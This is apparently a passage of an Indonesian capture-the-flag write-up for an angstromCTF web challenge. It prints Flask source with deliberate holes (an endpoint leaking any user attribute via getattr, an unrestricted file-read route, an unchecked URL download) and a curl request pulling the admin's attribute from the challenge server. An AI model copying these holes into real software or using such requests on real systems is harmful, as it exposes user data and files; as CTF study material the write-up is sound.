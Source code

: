 ```python
            return addfile()
    return render_template("loggedout.html")

#beta feature for viewing info about other users - still testing
@app.route("/user/<username>", methods=['POST'])
def getInfo(username):
    val = getattr(users[username], request.form['field'], None)
    if val != None: return val
    else: return "error"

@app.route("/files/<path:file>", methods=["GET"])
def getFile(file):
    if "index.py" in file:
        return "no! bad user! bad!"
    return open(file, "rb").read()

def addfile():
    if users[request.form["username"]].getPass() == request.form["password"]:
        if request.form['url'][-1] == "/": downloadurl = request.form['url'][:-1]
        else: downloadurl = request.form['url']
        if downloadurl.split("/")[-1] in os.listdir("."):
            return "file already exists"
        file = requests.get(downloadurl, stream=True)
        f = open(downloadurl.split("/")[-1], "wb")
        first = True
        for chunk in file.iter_content(chunk_size=1024*512):
            if not first: break
            f.write(chunk)
            first = False
        f.close()
        users[request.form["username"]].files.append(downloadurl.split("/")[-1])
        return render_template("index.html", user=users[request.form["username"]])
    return "bad password"

if __name__ == "__main__": app.run(host="0.0.0.0")
```

yang menarik adalah fungsi berikut
```python
#beta feature for viewing info about other users - still testing
@app.route("/user/<username>", methods=['POST'])
def getInfo(username):
    val = getattr(users[username], request.form['field'], None)
    if val != None: return val
    else: return "error"
```
kita bisa menampilkan atribut yg kita mau dari user yang kita tentukan di url
contohnya untuk mendapatkan username dari admin kita bisa lakukan posts request berikut

```
Sat 17:02:01 with root in /tmp/test on  1233bda 
•% ➜ curl -X POST http://web2.angstromctf.com:8899/user/admin -d "field=username"
admin#
```
